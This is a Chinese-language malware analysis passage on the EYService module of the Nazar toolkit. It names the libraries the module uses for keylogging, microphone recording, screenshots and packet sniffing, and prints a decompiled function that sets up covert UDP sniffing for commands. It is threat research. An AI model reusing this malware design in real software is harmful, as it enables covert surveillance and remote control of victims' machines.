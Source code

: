 该服务是攻击中的关键组件，它负责加载和卸载所有的模块。从某种意义上来讲，EYService和其他RAT客户端类似，都包含了一个待执行的命令列表，攻击者可以通过下发不同的指令从而实现不同的操作。下面我们将分析EYService的详细功能。

与Nazar中的其他组件一样，该模块也没有展示新颖的技术或高质量的编写代码。实际上，与其他模块一样，这个模块主要基于当时常见的开源库。<br>
比如使用Microolap的包嗅探SDK用于管理流量和嗅探数据包。<br>
使用”蹩脚的”的mp3编码用于记录受害者麦克风。<br>
使用KeyDll3用于键盘记录。<br>
使用BMGlib用于截屏。<br>
使用开源项目ShowDownAlarm用于关闭用户计算机。<br>
等等。

#### <a class="reference-link" name="%E9%80%9A%E4%BF%A1%E5%88%86%E6%9E%90"></a>通信分析

在分析网络组件的时候，关键点在于C&amp;C服务器的地址和下发的指令内容。通过这些信息我们可能会得知一些服务器的关键路径，也有可能通过IP关联到新的攻击样本。但是由于Nazar的通信方式的特性，我们很难分析到目标的C&amp;C地址。

当服务执行后，首先会设置数据包嗅探，通过使用Packet Sniffer SDK（几乎是一种教科书的方式）完成的。主线程获取一个向外的网络适配器，并使用BPF来确保仅将UDP数据包转发到处理程序。

```
DWORD __stdcall main_thread(LPVOID lpThreadParameter)
`{`
  HANDLE hMgr; // edi
  HANDLE hCfg; // esi
  HANDLE hFtr; // edi
  hMgr = MgrCreate();
  MgrInitialize(hMgr);
  hCfg = MgrGetFirstAdapterCfg(hMgr);
  do
  `{`
    if ( !AdpCfgGetAccessibleState(hCfg) )
      break;
    hCfg = MgrGetNextAdapterCfg(hMgr, hCfg);
  `}`
  while ( hCfg );
  ADP_struct = AdpCreate();
  AdpSetConfig(ADP_struct, hCfg);
  if ( !AdpOpenAdapter(ADP_struct) )
  `{`
    AdpGetConnectStatus(ADP_struct);
    MaxPacketSize = AdpCfgGetMaxPacketSize(hCfg);
    adapter_ip = AdpCfgGetIpA_wrapper(hCfg, 0);
    AdpCfgGetMACAddress(hCfg, &amp;mac_address, 6);
    hFtr = BpfCreate();
    BpfAddCmd(hFtr, BPF_LD_B_ABS, 23u);         //  Get Protocol field value
    BpfAddJmp(hFtr, BPF_JMP_JEQ, IPPROTO_UDP, 0, 1);// Protocol == UDP
    BpfAddCmd(hFtr, BPF_RET, 0xFFFFFFFF);
    BpfAddCmd(hFtr, BPF_RET, 0);
    AdpSetUserFilter(ADP_struct, hFtr);
    AdpSetUserFilterActive(ADP_struct, 1);
    AdpSetOnPacketRecv(ADP_struct, on_packet_recv_handler, 0);
    AdpSetMacFilter(ADP_struct, 2);
    while ( 1 )
    `{`
      if ( stop_and_ping == 1 )
      `{`
        adapter_ip = AdpCfgGetIpA_wrapper(hCfg, 0);
        connection_method(2);
        stop_and_ping = 0;
      `}`
      Sleep(1000u);
    `}`
  `}`
  return 0;
`}`
```